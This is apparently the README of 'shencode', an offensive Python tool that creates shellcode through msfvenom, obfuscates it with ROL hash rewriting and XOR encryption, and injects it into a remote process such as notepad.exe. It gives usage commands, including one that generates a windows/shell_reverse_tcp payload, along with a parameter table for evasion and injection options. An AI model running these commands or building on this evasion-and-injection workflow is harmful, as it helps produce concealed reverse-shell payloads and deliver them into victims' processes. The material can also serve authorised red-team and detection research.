 # shencode

# shencode
Create, encode, iniject, show Shellcode

![](shencode-2.png)
## Features

### Version 0.3

- create
	- create shellcodes with msfvenom
- encode
	- search and replace ROR13 encoding with ROL
	- XOR encryption
- inject
	- inject shellcode into a remote process
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- output in console windows
	- output in template

## ToDo

- chaining commands for better integration
- automatical compile feature
- integrate more frameworks
- integrate more encoder
- Use PATH for better msfvenom integration

## How to use

### create shellcode

`python shencode.py create --payload windows/shell_reverse_tcp --lhost 127.0.0.1 --lport 4443`

### encode shellcode

#### ROR13 to ROL

`python shencode.py encode --filename sc-120824-120101.bin --key 33`

#### XOR

`python shencode.py encode --filename shell.raw --xor --xorkey 96`

### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Please change the metasploit path in line 8. This will be fixed in the future.

`msfvenom_path = "c:\\metasploit-framework\\bin\\msfvenom.bat"`

## Parameter


| **Command** | **Subcommand** | **Short** | **Description**                                                                       |
| ----------- | -------------- | --------- | ------------------------------------------------------------------------------------- |
| create      |                |           | create a shellcode using msfvenom                                                     |
|             | --payload      | -p        | payload to use e.g. windows/shell_reverse_tcp                                         |
|             | --lhost        | -lh       | LHOST Argument                                                                        |
|             | --lport        | -lp       | LPORT Argument                                                                        |
| encode      |                |           | Shellcode encoding                                                                    |
|             | --filename     | -f        | raw input file with shellcode                                                         |
|             | --ror2rol      | -r        | encode windows function hashes to ROL                                                 |
|             | --key          | -rk       | ROL key for encoding                                                                  |
|             | --xor          | -x        | use additional XOR encoding                                                           |
|             | --xorkey       | -xk       | XOR key for encoding                                                                  |
|             | --decompile    |           | decompile modified bytes                                                              |
|             | --showmod      |           | display modifications                                                                 |
| inject      |                |           | inject shellcode                                                                      |
|             | --filename     | -f        | raw input file with shellcode to inject                                               |
|             | --processname  | -p        | process name to inject                                                                |
|             | --startprocess | -s        | if set, process will be started                                                       |
| output      |                |           | create formatted output by filename                                                   |
|             | --filename     | -f        | raw input file with shellcode                                                         |
|             | --syntax       | -s        | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |
|             | --write        | -w        | write output to the given filename (replacing  `!++BUFFER++!` placeholder in the file |
| --output    |                |           | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
